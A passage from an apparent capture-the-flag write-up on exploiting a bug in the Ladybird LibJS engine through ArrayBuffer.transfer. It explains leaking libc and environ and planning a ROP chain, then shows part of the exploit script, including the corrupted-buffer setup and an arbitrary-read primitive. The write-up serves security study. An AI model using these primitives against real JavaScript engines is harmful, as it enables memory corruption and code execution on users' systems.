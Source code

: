 We now have arbitrary read/write! Now, we just need to gain control of `rip`. As the challenge uses libc 2.38 we decided to simply ROP on the stack. First, though, we need to leak some addresses. In particular, we need to first leak libc, leak environ, and finally get to the return address!

The first leak we get is from the JS object of the victim `ArrayBuffer`:

```js
var lagos = ftoi(pwnview.getFloat64(64, true)) - BigInt(0xada8);
console.log("lagos-js: 0x" + lagos.toString(16));
```

This points somewhere in `liblagom-js.so.0`. From there, we found a pointer to `ld-linux-x86-64.so.2`. Through the auxiliary vector (auxv), we found a reference to `_start` in the JS shell binary. From there, we leaked a GOT entry (exit's one, which is already populated due to full RELRO) and got (got, get it?) the base of `libc.so.6`. Finally, we leaked `environ` and calculated the return address of `main`. We tried spawning a shell (`/bin/sh`), but that failed on remote for some reason. We were also provided a `readflag` binary in the root, so we went with that. We first wrote on the stack `/readflag`, and then we overwrote the return address with our simple ropchain (an execve or `/readflag`, as calling `system` would fail on remote).

The final script is the following:

```js
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
  // typeof(val) = float
  f64_buf[0] = val;
  return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) {
  // typeof(val) = BigInt
  u64_buf[0] = Number(val & 0xffffffffn);
  u64_buf[1] = Number(val >> 32n);
  return f64_buf[0];
}

// Exploit

var buf = new ArrayBuffer(0x104);
var buf32 = new Uint32Array(buf);
buf32[8] = 0xfffff0; // m_size
buf32[10] = 1; // m_inline
buf32[12] = 1; // m_detach_key
buf32[15] = 0x7ffe0000; // undefined

var pwn = buf.transfer(0x10);
var pwnview = new DataView(pwn);
var victim = new ArrayBuffer(0x10);
var victimview = new DataView(victim);
var lagos = ftoi(pwnview.getFloat64(64, true)) - 0xada8n;
console.log("lagos-js: 0x" + lagos.toString(16));

function arb_read(addr) {
  pwnview.setFloat64(0x80, itof(addr), true);
  pwnview.setInt32(0x88, 0xfff0, true);
  pwnview.setInt32(0xa8, 0, true);
  var ret = ftoi(victimview.getFloat64(0, true));
  pwnview.setInt32(0xa8, 1, true);
  return ret;
}

```